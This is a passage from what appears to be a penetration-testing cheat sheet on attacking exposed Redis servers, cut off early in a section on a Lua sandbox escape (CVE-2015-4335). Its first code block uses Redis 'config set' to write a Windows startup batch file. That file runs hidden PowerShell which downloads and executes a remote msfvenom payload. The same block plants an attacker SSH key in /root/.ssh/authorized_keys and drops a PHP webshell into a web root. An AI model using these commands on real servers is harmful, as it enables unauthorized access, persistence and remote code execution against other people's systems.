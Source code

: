 ```bash
# bgsave
# dump the database to disk

# Windows startup [msf or cobalt strike]
config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
config set dbfilename shell.bat
set x "\r\n\r\npowershell -windowstyle hidden -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://ip:port/msfvenom.ps1');msfvenom.ps1\"\r\n\r\n"
save

# ssh
ssh-keygen

set baconxxx "rsa.pub"
config set dir /root/.ssh
config set dbfilename authorized_keys

ssh -i rsa.priv root@ip

# webshell
set baconxxx "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
config set dir "C:/phpstudy/WWW"
#/var/www/html/
config set dbfilename baconxxx.php
```

## Redis Lua Sendbox Escape(CVE-2015-4335)

### Intro

#### eval&evalsha

EVAL and EVALSHA are used to evaluate scripts using the Lua interpreter built into Redis starting from version 2.6.0.

```bash
root@x:~# redis-cli
127.0.0.1:6379> eval "return {KEYS[1],KEYS[2],ARGV[1],ARGV[2]}" 2 key1 key2 first second
1) "key1"
2) "key2"
3) "first"
4) "second"
> eval "return redis.call('get','foo')" 0
"bar"
> evalsha 6b1bf486c81ceb7edf3c093f4c48582e38c0e791 0
"bar"
```

It is possible to call Redis commands from a Lua script using two different Lua functions:

```bash
1. redis.call()
127.0.0.1:6379> eval "return redis.call('set','foo','bar')" 0
OK
//The above script sets the key foo to the string bar. However it violates the EVAL command semantics as all the keys that the script uses should be passed using the KEYS array:
127.0.0.1:6379> eval "return redis.call('set',KEYS[1],'bar')" 1 foo
OK

2. redis.pcall()

```